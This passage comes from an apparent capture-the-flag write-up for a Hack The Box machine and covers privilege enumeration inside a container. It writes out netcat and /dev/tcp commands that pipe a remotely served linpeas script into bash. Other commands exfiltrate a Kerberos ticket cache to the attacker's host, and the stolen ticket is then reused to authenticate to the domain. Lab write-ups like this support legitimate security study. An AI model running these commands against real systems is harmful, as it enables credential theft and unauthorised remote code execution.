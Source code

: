 Looks like a container once more with ID `LINUX-DEV-WS01` there are a lot methods to check that, but we can run `Linpeas` directly to automate the enumeration process

![](https://cdn-images-1.medium.com/max/1000/1*MLyXqsOmc0dM7KXBRufblQ.png)


### Run linpeas

+ On host 
    ```bash
    nc -nlvp 4444 < linpeas.sh
    ```
+ target shell 
    ```bash
    cat < /dev/tcp/host_ip/4444 | bash 
    ```
There are a few things I check first in `linPEAS` results before reading the whole report: the hosts file, network interfaces, local open ports, databases, and configuration files. However, since we are in a container, there isn’t much data to analyze.

![](https://cdn-images-1.medium.com/max/1000/1*WQabw8VxpR9FrWuebepsUw.png)

The environment variable `KRB5CCNAME` indicates an active Kerberos ticket cache stored at `/tmp/krb5cc_50`, Use `klist` to check for active Kerberos tickets.

![](https://cdn-images-1.medium.com/max/1000/1*wokxw1tGokHQYL1U6zt7Dg.png)

`krb5.conf` is also configured for Kerberos authentication, confirming our previous findings.

![](https://cdn-images-1.medium.com/max/1000/1*yenhkIUkSLEKqo5IL-lJpg.png)

I’ll transfer this ticket to use it for Kerberos authentication on the domain and start the real work since this is already a Windows machine.

+ On host 
    ```bash
    nc -nlvp 80 > krb5cc_50
    ```
+ On target session
    ```bash
    cat /tmp/krb5cc_50 > /dev/tcp/10.10.16.44/80
    ```

![](https://cdn-images-1.medium.com/max/1000/1*o-To9ewoF53USkibH-aDQg.png)
![](https://cdn-images-1.medium.com/max/1000/1*nPnDtXGV46SVgKd8i2lV2A.png)

To confirm the ticket didn’t change during the transfer, check the checksum of both the original ticket on the target machine and the transferred one.

+ On our local host, export the ticket to use it for authentication:
    ```bash
    export KRB5CCNAME=/home/zyad/htb/ghost/krb5cc_50
    ```
+ Then validate it by authenticating to the domain. I’ll use [netexec](https://github.com/Pennyw0rth/NetExec) for this.
    ```
    nxc ldap 10.10.11.24 -u florence.ramirez -k --use-kcache
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*INfjYkiQHPD-E7iscYiIdA.png)
